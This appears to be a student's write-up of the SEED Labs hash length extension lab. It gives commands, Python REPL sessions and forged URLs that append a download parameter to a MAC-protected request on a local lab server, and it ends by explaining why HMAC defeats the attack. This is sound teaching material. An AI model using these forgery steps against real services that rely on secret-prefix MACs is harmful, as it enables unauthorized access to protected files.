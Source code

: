 # Lab Environment

Set up the container and run it (`www-10.9.0.80`) in the background:

```sh
curl https://seedsecuritylabs.org/Labs_20.04/Files/Crypto_Hash_Length_Ext/Labsetup.zip -o Labsetup.zip
unzip Labsetup.zip
cd Labsetup
dcbuild
dcup -d
```

If necessary, get the running container id by `dockps` and use `docksh <id>` to start a shell on this container.

Add the following entry in `/etc/hosts` *(root privilege required, try `sudo vi /etc/hosts`)*:

```
10.9.0.80 www.seedlab-hashlen.com
```

# Task 1

Construct and send a benign request to the server:

1. Pick up a `uid` with its key value from `Labsetup/image_flask/app/LabHome/key.txt` instead of using a real name, for example, I choose the entry `1001:123456` in this task.
2. Calculate the MAC of the key concatenated with request content `R`, that is

```
Key:R = 123456:myname=clau&uid=1001&lstcmd=1
```

Suppose that the name used here is "clau" and it requests for listing all the files in `LabHome` folder.

So the MAC is calculated as:

```sh
echo -n "123456:myname=clau&uid=1001&lstcmd=1" | sha256sum
#e77ba23ca2f3071eebf615a3eab38b47fb741ece13d8082cc37c62af32661f00  -
```

Thus the complete request is:

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1&mac=e77ba23ca2f3071eebf615a3eab38b47fb741ece13d8082cc37c62af32661f00
```

*Don't use `curl` or `wget`, it doesn't support. Just open a Firefox browser via VNC client and visit the url link above.*

The web looks like:

![](./lstcmd.png)

For a download request, we take a similar strategy to construct:

```
http://www.seedlab-hashlen.com/?myname=clau&uid=1001&lstcmd=1&download=secret.txt&mac=e77ba23ca2f3071eebf615a3eab38b47fb741ece13d8082cc37c62af32661f00
```

![](./download.png)

# Task 2

Construct the padding for 
```
123456:myname=clau&uid=1001&lstcmd=1
```

Use Python REPL to complete this work:

```sh
python
>>> payload = bytearray("123456:myname=clau&uid=1001&lstcmd=1",'utf8')
>>> len(payload)
36
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('\\x{:02x}'.format(x) for x in padding))
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x20
# for url-encoding
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20
```

# Task 3

Compile and run [`calculate_mac.c`](./calculate_mac.c), in which [`SHA256_Update`](./calculate_mac.c#L9) takes the padding bytes we obtained in [previous task](#task-2) followed by `&download=secret.txt` as the second argument.


```sh
gcc calculate_mac.c -o calculate_mac -lcrypto
./calculate_mac
```

It gives:

```
64f16899eb5ab2343f29cde7bc949511060e495edb3676fcf6bf6241c6b1bf69
```

---

If it reports an error as:

```
gcc: error: calculate_mac.c: No such file or directory
```

try:

```
sudo apt install libssl-dev
```

---

Then, visit

```
http://www.seedlab-hashlen.com/?myname=clau&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20&download=secret.txt&mac=64f16899eb5ab2343f29cde7bc949511060e495edb3676fcf6bf6241c6b1bf69
```

![](./padding.png)

# Task 4

Alternatively, to distinguish from the existing work, we turn to apply the `1002:983abe` as `mackey-uid` and "MUR" as current username.

A legitimate request to list files without MAC value:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1
```

can be calculated by

```sh
echo -n "983abe:myname=MUR&uid=1002&lstcmd=1" | sha256sum
# 3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2  -
```

Assume that we have already observed the full request URL as

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1&mac=3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2
```

But we do not know the mac key of it. So we use [`length_ext.c`](./length_ext.c) to obtain the MAC after appending `"&download=secret.txt"` argument. Compile and run:

```sh
gcc length_ext.c -o length_ext -lcrypto
./length_ext
# bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

Then, construct the padding of the original message as [task-2](#task-2), recall that we don't know what the mac key exactly is but we know the length of keys are fixed, so we can easily calculate the padding:

```sh
python
>>> payload = bytearray("******:myname=MUR&uid=1002&lstcmd=1",'utf8')
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18
```

So the full request is:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18&download=secret.txt&mac=bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

![](./mur.png)

# Task 5

Keyed-hash mesaage authentication code (HMAC) can be used as the follwing example:

```sh
python
>>> import hmac
>>> import hashlib
>>> key = '123456'
>>> message = 'myname=koji&uid=1001&lstcmd=1'
>>> hmac.new(bytearray(key.encode('utf8')), msg=message.encode('utf-8',
... 'surrogateescape'), digestmod=hashlib.sha256).hexdigest()
'e216c440b3a152d0a8b62e54076863080bc4febe69299ec3aa420c43033cde10'
```

Or

```sh
echo -n "myname=koji&uid=1001&lstcmd=1" | openssl dgst -sha256 -hmac "123456"
# (stdin)= e216c440b3a152d0a8b62e54076863080bc4febe69299ec3aa420c43033cde10
```

HMAC works as the figure below shows:


![](./hmac.png)

$H$ is a hash function and $K$ is a secret key, which could be of any length. $B$ denotes the block size for $H$.

For an input message $M$, he inner hash (left part) first computes $H(K \oplus ipad) \mathbin\Vert M$ and its result $h$ is passed to the outer hash in order to perform $H((K \oplus opad) \mathbin\Vert h$, in which `ipad` and `opad` are both constants.

In such an algorithm, the MAC key is required in both 2 hash functions. The MAC of a full message calculated by inner hash is required taking by the outer hash function, so if we don't have the internal result, which is invisible to us, we cannot compute the correct final MAC. Due to the sequential design, if the server applies HMAC instead of ordinary MAC methods we discussed above, the attacker cannot directly construct the MAC of an extended message from the final MAC of a legal request only. Therefore, hash length extension attack will fail.
